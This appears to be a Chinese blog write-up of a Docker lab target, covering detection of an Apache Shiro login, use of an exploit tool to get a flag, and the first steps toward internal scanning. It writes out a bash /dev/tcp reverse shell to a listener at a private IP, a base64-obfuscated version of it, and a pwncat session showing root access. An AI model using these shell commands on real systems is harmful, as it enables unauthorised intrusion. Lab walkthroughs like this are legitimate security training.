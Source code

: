 ```yaml
---
title: Puff-Pastry打靶
tags:
  - sec
date: 2024-08-18T11:59:41
lastmod: 2024-10-16T15:05:57
toc: "true"
draft: "false"
---
```

# 前言
在群里瞅见了这个靶机,没打过这种复杂环境的靶机,玩一下
# Puff-Pastry打靶记录
## 搭建
使用docker搭建,然后本地能够访问到一个8080端口
![|207](https://img.l1uyun.one/Puff-Pastry打靶记录_image_1.png)
这里我最开始是使用的Windows docker,后面改成了使用虚拟机
## shiro
### 探测
java后端
![|522](https://img.l1uyun.one/Puff-Pastry打靶记录_image_2.png)
进去只有一个登录框,在搭建过程中已经知道了第一台机器是shiro,选择记住密码,登录

这里出现了shiro的特征 Cookie中存在rememberme字段
![|453](https://img.l1uyun.one/Puff-Pastry打靶记录_image_3.png)
### shiro利用
直接上利用工具

获取flag
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_4.png)

拿一个反弹shell
```bash
echo 'bash -i 5<>/dev/tcp/192.168.122.102/1234 0>&5 1>&5' | base64

bash -c {echo ,YmFzaCAtaSA1PD4vZGV2L3RjcC8xOTIuMTY4LjEyMi4xMDIvMTIzNCAwPiY1IDE+JjUK}|{base64,-d}|{bash,-i}
```
成功拿到shell
```bash
 $ pwncat  -l 1234
id
uid=0(root) gid=0(root) groups=0(root)
/usr/bin/script -qc /bin/bash /dev/null
root@653a3ab3924e:/# 
```
### 内网扫描
然后开始扫描内网.
